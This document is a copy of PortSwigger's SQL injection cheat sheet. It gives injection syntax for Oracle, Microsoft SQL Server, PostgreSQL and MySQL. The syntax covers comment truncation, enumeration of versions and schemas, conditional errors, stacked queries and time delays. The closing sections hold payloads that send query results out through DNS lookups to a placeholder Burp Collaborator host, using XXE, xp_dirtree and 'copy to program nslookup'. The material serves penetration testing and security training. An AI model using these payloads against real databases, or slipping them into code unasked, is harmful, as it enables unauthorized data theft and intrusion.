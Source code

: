 
**[PORTSWIGGER SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)**

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle  `SUBSTR('foobar', 4, 2)` 

Microsoft  `SUBSTRING('foobar', 4, 2)` 

PostgreSQL  `SUBSTRING('foobar', 4, 2)` 

MySQL  `SUBSTRING('foobar', 4, 2)` 

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle  `--comment\`

Microsoft  `--comment\
/*comment*/` 

PostgreSQL  `--comment\
/*comment*/` 

MySQL  `#comment`\
`-- comment` \
`/*comment*/` 

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` 

Microsoft  `SELECT @@version` 

PostgreSQL  `SELECT version()` 

MySQL  `SELECT @@version` 

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle  `SELECT * FROM all_tables` \
`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` 

Microsoft  `SELECT * FROM information_schema.tables` \
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

PostgreSQL  `SELECT * FROM information_schema.tables` \
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

MySQL  `SELECT * FROM information_schema.tables` \
`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` 
 
Microsoft  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` 
 
PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` 

Batched (or stacked) queries
----------------------------

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle  `Does not support batched queries.` 

Microsoft  `QUERY-1-HERE; QUERY-2-HERE` 

PostgreSQL  `QUERY-1-HERE; QUERY-2-HERE` 

MySQL  `QUERY-1-HERE; QUERY-2-HERE` 

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
-----------

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle  `dbms_pipe.receive_message(('a'),10)` 

Microsoft  `WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT pg_sleep(10)` 

MySQL  `SELECT sleep(10)` 

Conditional time delays
-----------------------

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN`\ 
`'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` 

Microsoft  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` 

DNS lookup
----------

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle  The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:\
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

The following technique works on fully patched Oracle installations, but requires elevated privileges:\
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |

Microsoft  `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` 

PostgreSQL  `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` 

MySQL  The following techniques work on Windows only:\
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`\
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 

DNS lookup with data exfiltration
---------------------------------

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` 

Microsoft  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` 

PostgreSQL  `create OR replace function f() returns void as $$\
declare c text;\
declare p text;\
begin\
SELECT into p (SELECT YOUR-QUERY-HERE);\
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';\
execute c;\
END;\
$$ language plpgsql security definer;\
SELECT f();` 

MySQL  The following technique works on Windows only:\
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 


